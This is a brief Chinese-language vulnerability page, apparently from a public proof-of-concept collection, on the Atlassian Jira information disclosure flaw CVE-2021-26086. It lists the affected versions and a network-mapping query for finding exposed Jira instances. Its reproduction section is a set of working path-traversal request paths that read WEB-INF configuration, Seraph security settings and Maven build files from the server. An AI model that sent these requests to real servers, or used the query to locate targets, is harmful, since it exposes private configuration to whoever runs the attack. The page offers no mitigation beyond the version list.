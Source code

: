 # 

# Atlassian Jira 敏感信息泄露 CVE-2021-26086

## 漏洞描述

JIRA是Atlassian公司出品的项目与事务跟踪工具，被广泛应用于缺陷跟踪、客户服务、需求收集、流程审批、任务跟踪、项目跟踪和敏捷管理等工作领域。

参考链接：

- https://jira.atlassian.com/browse/JRASERVER-72695

## 漏洞影响

```
version < 8.5.14
8.6.0 ≤ version < 8.13.6
8.14.0 ≤ version < 8.16.1
```

## 网络测绘

```
app="ATLASSIAN-JIRA"
```

## 漏洞复现

poc：

```
/s/cfx/_/;/WEB-INF/web.xml
/s/cfx/_/;/WEB-INF/decorators.xml
/s/cfx/_/;/WEB-INF/classes/seraph-config.xml
/s/cfx/_/;/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.properties
/s/cfx/_/;/META-INF/maven/com.atlassian.jira/jira-webapp-dist/pom.xml
/s/cfx/_/;/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.xml
/s/cfx/_/;/META-INF/maven/com.atlassian.jira/atlassian-jira-webapp/pom.properties
```



